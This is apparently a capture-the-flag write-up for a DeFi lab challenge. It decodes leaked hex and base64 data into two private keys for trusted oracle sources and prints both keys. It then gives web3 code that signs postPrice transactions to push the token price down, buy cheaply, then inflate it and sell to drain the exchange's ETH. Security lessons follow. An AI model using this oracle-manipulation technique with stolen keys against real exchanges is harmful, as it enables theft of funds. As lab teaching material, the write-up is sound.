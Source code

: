 # Challenge #7: Compromised

This time the goal is to hack an exchange that is selling (absurdly overpriced) collectibles called DVNFT (non fungible token) and steal all ETH. 

The exchange gets the price of DVNFT using an on-chain oracle which is controlled by three different trusted sources (the price is the median of the sources' prices). 

Here is the code for price calculation (in the oracle contract):

```
function _computeMedianPrice(string memory symbol) private view returns (uint256) {
    uint256[] memory prices = _sort(getAllPricesForSymbol(symbol));

    // calculate median price
    if (prices.length % 2 == 0) {
        uint256 leftPrice = prices[(prices.length / 2) - 1];
        uint256 rightPrice = prices[prices.length / 2];
        return (leftPrice + rightPrice) / 2;
    } else {
        return prices[prices.length / 2];
    }
}
```

The only way to update the price is to call the following *postPrice* function, but it is callable only by the trusted source:

```
function postPrice(string calldata symbol, uint256 newPrice) external onlyTrustedSource {
    _setPrice(msg.sender, symbol, newPrice);
}

function _setPrice(address source, string memory symbol, uint256 newPrice) private {
    uint256 oldPrice = pricesBySource[source][symbol];
    pricesBySource[source][symbol] = newPrice;
    emit UpdatedPrice(source, symbol, oldPrice, newPrice);
}
```

However, what is also given is a *strange* response from one of the web services with the following data:
```
4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

Things to notice:
1. The DVNFT price can be manipulated by the oracle contract.
2. Only the trusted sources can post new price in the oracle and thus manipulate it... but they are trusted.
3. The price is calculated as the median value of three prices from three different sources therefore we would have to impersonate at least two sources.
4. The format of leaked data (2 items!) is very similar and well-known. Can you recognize it?

## Exploit

Let's start with the leaked data. When you look closer you will see that all these bytes (2 * 88 bytes) are hexadecimals for printable ASCII characters - there are between 0x20 and 0x7e (hexadecimal).

Let's decode them:
```
>>> print('4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35'.replace(' ', '').decode('hex'))
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

>>> print('4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34'.replace(' ', '').decode('hex'))
MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

Ok, next encoding - this time BASE64.
```
>>> import base64
>>> print(base64.b64decode('MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5'))
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

>>> print(base64.b64decode('MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4'))
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

This time we got two numbers in hexadecimal format, both 32 bytes long. What is 32 bytes long that I could be interested in? Private keys! And I have two - enough to manipulate the price of DVNFT token.

Now, the scenario of the attack is following:
1. Impersonating the two trusted sources (using leaked keys) and set the prices of DVNFT to 1 ETH.
2. Buying one DVNFT token for 1 ETH from the attacker account. The exchange will get the median price which is controlled by the attacker and is now 1 ETH.
3. Again impersonating the two trusted sources (using leaked keys) and set the prices of DVNFT to 10001 ETH - the total balance of the exchange.
4. Selling one DVNFT token 10001 ETH from the attacker account. The exchange will transfer all its ETH to the attacker.

This attack does not need any smart contract to exploit. The main problem here are the leaked private keys because they allow to impersonate the **trusted** sources.

Knowing the private key of the Ethereum account one can easily send a transaction on its behalf using the following code:

```
 let source1PrivKeyString = 'c678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9';

/* Set small price */
let data = web3.eth.abi.encodeFunctionCall({
    name: 'postPrice',
    type: 'function',
    inputs: [{
        type: 'string',
        name: 'symbol'
    },{
        type: 'uint256',
        name: 'newPrice'
    }]
}, ["DVNFT", ether('1').toString()]);

let tx = {
    to: this.oracle.address,
    gas: 3e6,
    nonce: 0,
    data: data 
}

web3.eth.accounts.signTransaction(tx,source1PrivKeyString).then(signed=> {
    web3.eth.sendSignedTransaction(signed.rawTransaction);
});    
```

## Lesson learned

The most important lesson here is to be careful who you trust because in this case the trusted sources had the full control over the price and the exchange had no way to mitigate that risk.

It is important to monitor the prices and have a possibility to pause the oracle functions and fallback to the previous price in case any attack is detected. 

Also there should be thresholds defined that would block the big price changes, e.g. the one in the attack from 999 ETH to 1 ETH, and the sources should have additional limitations, e.g. one price update per day.

[<< Back to the README](../README.md)